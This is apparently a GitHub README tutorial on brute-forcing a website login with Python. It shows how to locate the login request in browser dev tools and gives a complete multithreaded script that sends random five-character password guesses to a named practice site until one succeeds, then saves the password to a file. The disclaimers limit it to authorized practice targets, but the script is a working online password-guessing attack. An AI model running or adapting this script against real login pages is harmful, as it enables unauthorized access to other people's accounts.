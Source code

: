 # Bruteforce-using-Python

A brute force attack is great way to guessing the password. Hacker are always using all possible combination to guess the correct login info. Here I'm create a python script, where I can find password from a website. In this project I know the user name which is "username" and password is 5 letter, however, I don't the password. So my job here to create a random password where I used some common combination of letter and number. Here is my plan before I start this project: 

First, Look for a vulenable website which is authorized to hack. If I can't either create a basic login website or use metasploit. 
Second, use windows instead of macOS. It have more fucntion and easy to use. Specially "Metasploit" only works on windows and linux machine.
Third, Install python in my system.
Fourth, work on a python code which can generates random letter or number. 

Disclaimer: Please don't use this in an actual website. Because this is not an ethical hacker do. You can just use it just for practice or learn. This is totally illigal, you might get charge for this. So, my advice will be use this on your created login environment or the best way to practice is "Metasploit". Which create a vulerabile website to play around it. 

Before, I'm going to start I need a login website where I can hack ethically. So I choose this website: 
![Screen Shot 2022-05-07 at 5 22 24 PM](https://user-images.githubusercontent.com/93491482/167317020-c1af716e-6a2c-4a77-982c-024160f7b75e.png)

Then click right side on your mouse then click "Inspect"
![Screenshot 2022-05-08 17 30 37](https://user-images.githubusercontent.com/93491482/167319390-229f3873-9868-40ef-839f-dad6cefa07a9.png)


On the top you will find "Network" option. If you don't click on ">>" and select on "Network" menu. After that, definetly you are not goning to see anything it will empty. 
![Screenshot 2022-05-08 17 44 02](https://user-images.githubusercontent.com/93491482/167319398-270c4900-0fd5-4a8a-bc55-afba31cd4439.png)


Now, You can use any username and password and try to login. Then the website will say "Failed to login!" and you can see in "Inspect" file, under the "Name" section it calls "confirm-login". Click and you will see there are some subcategory called - "General, Response, Response Headers". In General category you will copy the "Request URL". This is your target machine/website. [Note: to check you used username and password click on payload, you will see the username and password you just used to check the website]
![Screenshot 2022-05-08 17 50 48](https://user-images.githubusercontent.com/93491482/167319412-b7b196a8-a2cb-4eb6-91cf-5f1878067115.png)


## Python Install

We need a python in our system. As I'm using windows, so I will be install python in my windows. 
Go to this website: https://www.python.org/ and Download this file. It will generate your OS device. 
![Screenshot 2022-05-08 18 01 25](https://user-images.githubusercontent.com/93491482/167319420-d88ca0c2-fa4a-4f97-9fdb-b4715aefbf6b.png)


When you are istalling python try to keep this is your C:/ drive. It will easy to use it. Trust me. 
The best way to install python just follow this: https://www.youtube.com/watch?v=bCY4D9n3Pew&t=55s youtube video it will helps a lot. 

## cmd Prompt or Terminal 

Now open to cmd prompt or your terminal and go to your python install directory then type 
```
pip install requests
```
![59AE2604-583E-41AF-B39C-401403830C9A](https://user-images.githubusercontent.com/93491482/167319431-c96c81e2-3486-4f40-9d7f-5583e0101b29.JPG)

If you don't have pip installed in your OS device then you can use this before install requests
```
python get-pip.py
```
## Python Editor
in your isntalled apps search for python editor which is "IDLE(Python 3.10.64-bit)"
![Screenshot 2022-05-08 18 18 11](https://user-images.githubusercontent.com/93491482/167319459-578626b2-76a3-469b-9b4c-fbe6b73d707e.png)


After it opens it, save it as the Name You want to but at end use .py word. Like I save it in my Desktop folder and name it bruteforce.py
![Screenshot 2022-05-08 18 21 11](https://user-images.githubusercontent.com/93491482/167319470-503467bb-720c-43dc-9158-042c83fce8e4.png)


After you save it open the file. 

## Check Python Requests Code
```
import requests
url = " https://requestswebsite.notanothercoder.repl.co/confirm-login"

def send_request(username, password):
    data = {
        "username" : username,
        "password" : password
    }
    
    r = requests.get(url, data=data)
    print(r.text)
```
![Screenshot 2022-05-08 18 29 39](https://user-images.githubusercontent.com/93491482/167319479-6f06e007-3fcb-4fc4-a265-4d86f6d957ee.png)


Then click "Run" >> Run Module >> from the top bar or press f5
![Screenshot 2022-05-08 18 31 43](https://user-images.githubusercontent.com/93491482/167319483-0a15add6-5417-43fb-b086-91e5d8f78a1e.png)


Then the will be "IDLE Shell" interface will be pop-up.
![Screenshot 2022-05-08 18 32 50](https://user-images.githubusercontent.com/93491482/167319493-3a3e85ba-76c8-4be5-bfda-03904db637ce.png)


Type
```
send_request("hi","hi")
```
as I used hi as my username and password so it. will say in a blue color that "Failed to login!". If it shows "Failed to login!" that means it request is working. 
![Screenshot 2022-05-08 18 35 22](https://user-images.githubusercontent.com/93491482/167319506-0d93f829-ec8b-4494-b26c-5b67e6ce9f9b.png)



## Python Code

```
import requests
import random
from threading import Thread
import os

url = "https://requestswebsite.notanothercoder.repl.co/confirm-login"
username = 'username'


def send_request (username, password):
    data = {
        "username" : username,
        "password" : password
    }
    r = requests.get(url, data=data)
    print(r.text)
    return r

chars = "abcdefghijklmnopqrstuvwxyz0123456789"

def main():
    while True:
        if "correct_pass.txt" in os.listdir():
            break
        valid = False
        while not valid:
            rndpasswd = random.choices(chars, k=5)
            passwd = "".join(rndpasswd)
            file = open("tries.txt", 'r')
            tries = file.read()
            file.close()
            if passwd in tries:
                pass
            else:
                valid = True
            
        r = send_request(username, passwd)

        if 'failed to login' in r.text.lower():
            with open("tries.txt", "a") as f:
                f.write(f"{passwd}\n")
                f.close()
            print(f"Incorrect {passwd}\n")
        else:
            print(f"Correct Password {passwd}!\n")
            with open("correct_pass.txt", "w") as f:
                f.write(passwd)
            break


for x in range(20):
    Thread(target=main).start()
```                                  
 
## Run Python Code
Now my whole python code is ready to use. But before I hit the run key, i have to make a file called tries.txt and it will be in the same directory as bruteforce.py. In my my case as I saved bruteforce.py file in Desktop so I create a text file in desktop. And called as tries.txt
![Screenshot 2022-05-08 18 44 03](https://user-images.githubusercontent.com/93491482/167319525-f339b4b7-24a3-42cc-826c-4f59c14e84f6.png)


Run it using f5 on your keyboard or click Run from the tab >> Run Module
![Screenshot 2022-05-08 18 40 59](https://user-images.githubusercontent.com/93491482/167319534-67aba223-0fe2-42f1-9757-8ac8c00ab8b2.png)


"IDLE Shell" file will be open automatically and it shows bunch on Incorrent password combination. It probably take 2-3 mins(tike for your tea break). Then this loop will be stop after it find the correct password.
![Screenshot 2022-05-08 17 05 55](https://user-images.githubusercontent.com/93491482/167319548-9e722e89-e232-4158-998b-cb5791fd72d1.png)

and if you open tries.txt file, you can see lots of failed password combination. Mine was 16511 wrong password. 
![Screenshot 2022-05-08 18 52 44](https://user-images.githubusercontent.com/93491482/167319566-0fbbb43a-4697-4dd5-a5a8-c98a2a818184.png)

correct password will be found in your same folder where is your bruteforce.py and .tries.txt file was created. And it will create a .txt file for you which name is correct_pass.txt. 
If you open the correct_pass.txt, you will see the correct password.
![Screenshot 2022-05-08 17 05 30](https://user-images.githubusercontent.com/93491482/167319560-8af87d61-bf32-4ef8-b347-2b13901254de.png)


##### Congratutaion!! After straight two days of work Successfully I can crack the password. 

# Note: Please, Please don't use it in actual website. It not only just demage the victim, but it will demage you. 
